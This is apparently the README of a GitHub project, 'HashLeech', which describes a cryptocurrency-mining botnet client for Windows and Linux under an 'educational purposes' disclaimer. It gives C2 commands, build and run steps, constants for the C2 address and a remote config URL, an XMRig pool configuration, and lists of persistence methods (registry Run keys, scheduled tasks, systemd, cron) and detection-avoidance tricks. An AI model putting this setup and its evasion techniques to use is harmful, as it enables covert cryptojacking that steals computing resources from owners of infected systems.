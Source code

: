 HashLeech - Cryptocurrency Mining Botnet
Disclaimer: This project is for educational and research purposes only. Unauthorized cryptocurrency mining on systems you don't own is illegal and unethical. Use this code only on systems you have explicit permission to test on.

Overview
HashLeech is a cryptocurrency mining botnet implementation that demonstrates how malware can distribute and manage cryptocurrency miners across multiple systems. Unlike traditional botnets focused on DDoS attacks, HashLeech specializes in Monero (XMR) mining using the XMRig miner.

Features
|---------------------------------------------------------------------------|
|Automatic Miner Deployment: Downloads and installs XMRig miner automatically|
|Command & Control (C2) Server: Centralized control of all mining nodes|
|Stealth Operation: Runs with minimal resource usage detection|
|Cross-Platform: Supports both Windows and Linux systems|
|Persistence Mechanisms: Automatically reinstalls after reboots|
|Dynamic Configuration: Remote updates of mining pool and settings|
|Heartbeat Monitoring: Regular status reports to C2 server|
|Resource Optimization: Adjusts mining intensity based on system specs|

```mermaid
graph TD
    BotClient[Bot Client - this repository]
    C2Server[C2 Server - separate repository]
    XMRig[XMRig Miner]

    BotClient -->|Connects to| C2Server
    BotClient -->|Downloads and runs| XMRig
    BotClient -->|Reports mining statistics| C2Server
    BotClient -->|Implements persistence| BotClient

    C2Server -->|Manages all connected bots| BotClient
    C2Server -->|Sends mining commands| XMRig
    C2Server -->|Collects statistics| BotClient
    C2Server -->|Updates mining configuration| XMRig

    XMRig -->|Official XMRig miner| XMRig
    XMRig -->|Configured for Monero mining| XMRig

```

Installation
For Research/Testing Purposes
```Text
Clone the repository:
```
```bash
git clone https://github.com/yourusername/HashLeech.git
cd HashLeech
Configure the C2 server address in bot.go:
```
```go
const C2Address = "your.c2.server.com:7003"
```

Build the bot:
```bash
go build -o HashLeech
Run the bot:
```

```bash
./HashLeech
```
Command Reference
|------------|------------|----------------|
||
|Command	|Description	|Example|
|START	|Start mining operation	|START|
|STOP	|Stop mining operation	|STOP|
|UPDATE	|Update miner binary	|UPDATE|
|KILL	|Remove miner and bot	|KILL|
|PERSIST|	Install| persistence |mechanism	|PERSIST|

Configuration
Edit the following constants in bot.go before building:
```go
const (
    C2Address         = "your.c2.server.com:7003"  // Your C2 server address
    xmrigURL          = "https://github.com/xmrig/xmrig/releases/download/v6.20.0/xmrig-6.20.0-msvc-win64.zip"
    configURL         = "http://yourconfigserver.com/config.json" 
    minerPath         = "C:\\Windows\\Temp\\xmrig.exe"           // Windows path
    // minerPath      = "/tmp/xmrig"                            // Linux path
)
```
Mining Configuration
The config.json file should contain standard XMRig configuration. Example:

```json
{
    "autosave": true,
    "cpu": true,
    "opencl": false,
    "cuda": false,
    "pools": [
        {
            "url": "pool.moneroocean.stream:10128",
            "user": "your_wallet_address",
            "pass": "x",
            "keepalive": true,
            "tls": false
        }
    ]
}
```
Persistence Mechanisms
HashLeech implements multiple persistence methods:

Windows:
Registry Run key
Scheduled tasks

Linux:
Systemd service
Cron job
Init.d script

Both:
```Text
Detection Avoidance
Randomizes process names

Uses standard TLS for C2 communication
Limits CPU usage to avoid detection

Runs with low process priority
Hides in system temp directories
```
